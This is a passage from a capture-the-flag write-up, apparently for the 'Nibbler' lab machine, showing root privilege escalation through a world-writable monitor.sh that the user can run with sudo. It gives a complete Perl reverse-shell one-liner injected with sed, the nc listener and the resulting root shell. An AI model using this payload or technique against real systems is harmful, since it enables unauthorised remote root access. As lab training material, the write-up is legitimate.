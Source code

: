 I can run a bash script with root privileges ! So if I can modify monitor.sh it's a win !

```
p0wny@shell:/home/nibbler# ls
personal.zip
user.txt
```

Unzip the zip file, like so :

```
p0wny@shell:/home/nibbler# unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

Now let's see the rights of this file :

```
p0wny@shell:…/personal/stuff# ls -al
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

Nice I can modify it ! It's a win, I just have to add a reverse shell in the file and launch it as root.

```
sed  -i '1i perl -e '\''use Socket;$i="10.10.14.10";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'\''' monitor.sh
```

This is adding my perl reverse shell ([http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)) at the begining of the file. Launch a nc listener :

```
nc -lvp 1234
```

And launch the script with root privileges :

```
sudo -u root /home/nibbler/personal/stuff/monitor.sh
```

Go check the nc listner :

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.75: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.75] 52660
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
